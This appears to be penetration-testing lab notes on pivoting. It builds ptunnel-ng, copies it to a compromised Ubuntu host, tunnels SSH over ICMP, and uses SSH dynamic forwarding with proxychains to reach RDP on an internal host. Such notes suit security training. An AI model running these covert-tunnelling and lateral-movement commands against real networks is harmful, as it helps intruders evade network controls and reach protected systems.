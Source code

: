```shell-session
#########
# In the attacker machine
#######
git clone https://github.com/utoni/ptunnel-ng.git

# Once the ptunnel-ng repo is cloned to our attack host, we can run the autogen.sh script located at the root of the ptunnel-ng directory. Building Ptunnel-ng with Autogen.sh
sudo ./autogen.sh 

# Another way to build the ptunnel-ng binary
sudo apt install automake autoconf -y
cd ptunnel-ng/
sed -i '$s/.*/LDFLAGS=-static "${NEW_WD}\/configure" --enable-static $@ \&\& make clean \&\& make -j${BUILDJOBS:-4} all/' autogen.sh
./autogen.sh

# After running autogen.sh, ptunnel-ng can be used from the client and server-side. We will now need to transfer the repo from our attack host to the target host
scp -r ptunnel-ng ubuntu@$ipUbuntuCompromisedMachine:~/

# Connect to the ubuntu
ssh ubuntu@$ipUbuntuCompromisedMachine
```


**2.** Start the ptunnel-ng Server on the Target Host

```shell-session
#########
# In the Ubuntu compromised machine, our Pivot Host
#######
sudo ./ptunnel-ng/src/ptunnel-ng -r$ipUbuntuCompromisedMachine -R22
```

**3.** With the ptunnel-ng ICMP tunnel successfully established, we can attempt to connect to the target using SSH through local port 2222 (-p2222).

```shell-session
#########
# In the attacker machine
#######

# Connecting to ptunnel-ng Server from Attack Host
sudo ./src/ptunnel-ng -p$ipUbuntuCompromisedMachine -l2222 -r$ipUbuntuCompromisedMachine -R22
```

Now we can use proxychains with RDP to connect to the machine in the other network range:

```shell-session
# First, enable Dynamic Port Forwarding over SSH
ssh -D 9050 -p2222 -lubuntu 127.0.0.1

# Now we can use proxychains with nmap
proxychains xfreerdp  /u:$user /p:$password /v:172.16.5.19
```
